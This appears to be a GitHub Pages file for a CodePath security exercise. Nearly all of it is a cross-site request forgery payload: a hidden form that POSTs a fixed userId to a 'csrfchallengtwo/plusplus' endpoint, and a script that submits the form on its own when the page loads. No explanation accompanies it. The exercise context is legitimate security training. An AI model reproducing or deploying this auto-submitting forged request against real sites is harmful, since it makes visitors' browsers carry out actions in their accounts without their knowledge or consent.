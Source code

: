 # JLPlummer79.github.io


<form name="csrfform" action="https://security.codepath.com/user/csrfchallengtwo/plusplus" method="POST">
  <input type="hidden" name="userId" value="74adf43a1036bfcf7daf75246270be0ee186c471"/>
  <input type="submit"/>
</form>

<script> document.csrfform.submit(); </script>
